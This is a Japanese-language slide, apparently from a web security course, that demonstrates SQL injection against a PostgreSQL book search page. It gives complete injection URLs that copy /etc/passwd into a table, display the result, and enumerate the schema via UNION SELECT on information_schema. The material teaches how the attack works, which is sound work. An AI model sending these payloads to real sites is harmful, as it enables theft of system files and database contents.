

# 攻撃
■ GETパラメータに検索パラメータが含まれるパターン
プログラム中SQL文字列： SELECT id, title, author, publisher, date,price FROM books WHERE author = '$author' ORDER BY id
http://exmple.jp/44/44-001.php?author=‘;copy books(title) from '/etc/passwd'--
→  /etc/passwd がbooksテーブルのtitle列に読み込まれる（COPY文PostgreSQLの拡張機能）
http://exmple.jp/44/44-001.php?author=‘or author is+null--
→  上記 /etc/passwd のCOPY文実施結果確認
http://exmple.jp/44/44-001.php?
author=‘ UNION SELECT table_name,column_nama,data_type,null,null,null,null
               FROM information_schema.columns order by 1--
→ UNION 右辺の information_schema.columns ビューテーブル の内容がすべて表示される
　　（PostgreSQLの表名、列名、型名の取得）